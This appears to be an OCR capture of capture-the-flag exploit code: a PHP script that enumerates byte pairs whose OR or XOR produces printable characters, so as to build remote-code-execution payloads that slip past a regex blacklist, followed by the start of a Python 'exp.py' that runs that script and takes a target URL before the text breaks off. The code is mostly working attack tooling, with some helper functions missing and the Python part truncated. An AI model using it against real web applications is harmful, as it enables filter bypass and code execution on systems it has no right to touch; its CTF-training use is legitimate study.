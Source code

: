 ```php

//mode=1代表或，2代表异或，3代表取反
//取反的话，就没必要生成字符去跑了，因为本来就是不可见字符，直接绕过正则表达式
function generate($mode, $preg='/[0-9]/i'){
    if ($mode!=3){
        $myfile = fopen("rce.txt", "w");
        $contents = "";

        for ($i=0;$i<256;$i++){
            for ($j=0;$j<256;$j++){
                if ($i<16){
                    $hex_i = '0'.dechex($i);
                }else{
                    $hex_i = dechex($i);
                }
                if ($j<16){
                    $hex_j = '0'.dechex($j);
                }else{
                    $hex_j = dechex($j);
                }
                if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
                }else{
                    $par1 = "%".$hex_i;
                    $par2 = '%'.$hex_j;
                    $res = '';
                    if ($mode==1){
                        $res = orRce($par1, $par2);
                    }else if ($mode==2){
                        $res = xorRce($par1, $par2);
                    }

                    if (ord($res)>=32&ord($res)<=126){
                        $contents=$contents.$res." ".$par1." ".$par2."\n";
                    }
                }
            }

        }
        fwrite($myfile,$contents);
        fclose($myfile);
    }else{
        negateRce();
    }
}
generate(1,'/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i');
//1代表模式，后面的是过滤规则
```php
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os

os.system("php D:\\phpstudy_pro\\WWW\\rce_fuzz.php")  # 没有将php写入环境变量需手动运行
if (len(argv) != 2):
	print("=" * 50)
	print('USER：python exp.py <url>')
	print("eg：  python exp.py http://ctf.show/")
	print("=" * 50)
	exit(0)
url = argv[1]

```